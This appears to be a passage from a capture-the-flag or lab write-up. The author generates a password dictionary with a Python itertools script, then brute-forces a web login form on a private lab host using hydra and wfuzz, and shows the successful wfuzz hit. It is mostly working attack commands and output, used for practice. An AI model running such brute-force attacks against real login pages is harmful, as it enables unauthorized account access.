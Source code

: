 I've first thing to use crunch to generate the dictionnary but 9^9=387420489 combinaisons possible will take too munch time.

Finally, after googling a bit, i've use a script in python, which use mainly `itertools`:

    $ vim pass-gen.py

```python
#!/usr/bin/env python

from sets import Set
from itertools import product

s1 = Set(['O','W','V','S','I','U','C','F','O'])
s2 = Set(['D','Z','Y','W','V','O','W','H','Q'])
s3 = Set(['B','Z','G','Z','O','Y','U','J','B'])
s4 = Set(['A','O','W','X','K','J','B','Y','U'])
s5 = Set(['F','J','S','Y','V','B','E','W','C'])
s6 = Set(['L','W','J','U','R','Y','X','Q','W'])
s7 = Set(['C','M','V','Y','X','Q','P','J','Y'])
s8 = Set(['U','S','N','J','V','V','U','K','C'])
s9 = Set(['K','V','P','Z','T','O','V','C','X'])

s1 -= s2
s2 -= s3
s3 -= s4
s4 -= s5
s5 -= s6
s6 -= s7
s7 -= s8
s8 -= s9
s9 -= s1

iterables = [ s1, s2, s3, s4, s5, s6, s7, s8, s9 ]

for t in product(*iterables):
  print (''.join(list(t)))
```

    $ python2.7 ./pass-gen.py > dict.txt

Only take 4 seconds to generate 840000 words.  
Next step is to bruteforce the password field.

    $ hydra -V -P dict.txt -l none -f 192.168.2.53 http-post-form '/pfychgdpvmxpupdkmcvctggquyfmgvbt/Papa_Legba/index.php:password=^PASS^:reason='

Hydra fail to find the good password. So i've try wfuzz.

    $ wfuzz -w dict.txt -d "password=FUZZ" -t 100 --hh 803 http://192.168.2.53/pfychgdpvmxpupdkmcvctggquyfmgvbt/Papa_Legba/index.php >log.txt

```txt
370871:  C=200     34 L	      87 W	    883 Ch	  " IHGAERMNT "
```
